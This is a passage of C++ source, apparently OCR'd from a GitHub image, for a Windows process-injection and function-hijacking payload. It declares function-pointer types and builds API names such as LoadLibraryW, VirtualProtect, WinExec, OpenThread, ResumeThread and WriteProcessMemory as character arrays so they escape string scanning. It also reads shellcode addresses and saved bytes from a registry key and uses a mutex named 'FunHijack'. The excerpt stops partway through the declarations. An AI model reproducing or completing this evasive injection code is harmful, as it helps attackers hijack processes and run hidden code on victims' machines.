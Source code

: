 ```cpp
typedef void (WINAPIV* printfType)(const char* fmt, ...);
#endif
typedef HMODULE(WINAPI* LoadLibraryType)(LPCWSTR lpLibFileName);
typedef void (WINAPI* SleepType)(DWORD dwMilliseconds);
typedef UINT(WINAPI* WinExecType)(LPCSTR lpCmdLine, UINT uCmdShow);
typedef void (WINAPI* ExitThreadType)(DWORD dwExitCode);



int main() {

    UCHAR* cbBuf;
    UCHAR* tmpBuf;
    HKEY hKey;
    WCHAR regKey[] = { 'S', 'O', 'F', 'T', 'W', 'A', 'R', 'E', '\\', 'L', 'a', 'm','w','a', 'r', 'e', '\0' };
    LPCTSTR value;

    WCHAR saValue[] = { 'S', 't', 'a', 'r', 't', 'A', 'd', 'd', 'r', 'e', 's','s', '\0' };
    WCHAR shValue[] = { 'S', 'C', 'o', 'd', 'e', 'A', 'd', 'd', 'r', 'e', 's','s', '\0' };
    WCHAR shsValue[] = { 'S', 'C', 'o', 'd', 'e', 'S', 'i', 'z', 'e', '\0' };
    WCHAR sbValue[] = { 'S', 'a', 'v', 'e', 'd', 'B', 'y', 't', 'e', 's', '\0' };
    WCHAR tiValue[] = { 'T', 'h', 'r', 'e', 'a', 'd', 'I', 'd', '\0' };
    WCHAR nChunksValue[] = { 'C', 'h', 'u', 'n', 'k', 's', '\0' };

    // Mutex
    WCHAR mutexName[] = { 'F', 'u', 'n', 'H', 'i', 'j', 'a', 'c', 'k', '\0' };

    // Symbols from MSVCRT
    CHAR mallocName[] = { 'm', 'a', 'l', 'l', 'o', 'c', '\0' };
    CHAR memsetName[] = { 'm', 'e', 'm', 's', 'e', 't', '\0' };
    CHAR memcpyName[] = { 'm', 'e', 'm', 'c', 'p', 'y', '\0' };
    CHAR freeName[] = { 'f', 'r', 'e', 'e', '\0' };
#ifdef _DEBUG
    CHAR printfName[] = { 'p', 'r', 'i', 'n', 't', 'f', '\0' };
#endif

    // Symbols from KERNEL32
    CHAR SleepName[] = { 'S', 'l', 'e', 'e', 'p', '\0' };
    CHAR LoadLibraryName[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'W', '\0' };
    CHAR RegOpenKeyName[] = { 'R', 'e', 'g', 'O', 'p', 'e', 'n', 'K', 'e', 'y', 'W', '\0' };
    CHAR RegDeleteKeyName[] = { 'R', 'e', 'g', 'D', 'e', 'l', 'e', 't', 'e', 'K', 'e', 'y', 'W', '\0' };
    CHAR RegGetValueName[] = { 'R', 'e', 'g', 'G', 'e', 't', 'V', 'a', 'l', 'u', 'e', 'W', '\0' };
    CHAR OpenThreadName[] = { 'O', 'p', 'e', 'n', 'T', 'h', 'r', 'e', 'a', 'd', '\0' };
    CHAR ResumeThreadName[] = { 'R', 'e', 's', 'u', 'm', 'e', 'T', 'h', 'r', 'e', 'a', 'd', '\0' };
    CHAR OpenMutexName[] = { 'O', 'p', 'e', 'n', 'M', 'u', 't', 'e', 'x', 'W', '\0' };
    CHAR CloseHandleName[] = { 'C', 'l', 'o', 's', 'e', 'H', 'a', 'n', 'd', 'l', 'e', '\0' };
    CHAR RegCloseKeyName[] = { 'R', 'e', 'g', 'C', 'l', 'o', 's', 'e', 'K', 'e', 'y', '\0' };
    CHAR WinExecName[] = { 'W', 'i', 'n', 'E', 'x', 'e', 'c', '\0' };
    CHAR VirtualProtectName[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'P', 'r', 'o', 't', 'e', 'c', 't', '\0' };
    CHAR WaitForSingleObjectName[] = { 'W', 'a', 'i', 't', 'F', 'o', 'r', 'S', 'i', 'n', 'g', 'l', 'e', 'O', 'b', 'j', 'e', 'c', 't', '\0' };
    CHAR ExitThreadName[] = { 'E', 'x', 'i', 't', 'T', 'h', 'r', 'e', 'a', 'd', '\0' };


#ifndef NO_LIB_RELOAD
    CHAR FreeLibraryName[] = { 'F', 'r', 'e', 'e', 'L', 'i', 'b', 'r', 'a', 'r', 'y', '\0' };
#endif
#ifdef WPM
    CHAR WriteProcessMemoryName[] = { 'W', 'r', 'i', 't', 'e', 'P', 'r', 'o', 'c', 'e', 's', 's', 'M', 'e', 'm', 'o', 'r', 'y', '\0' };
```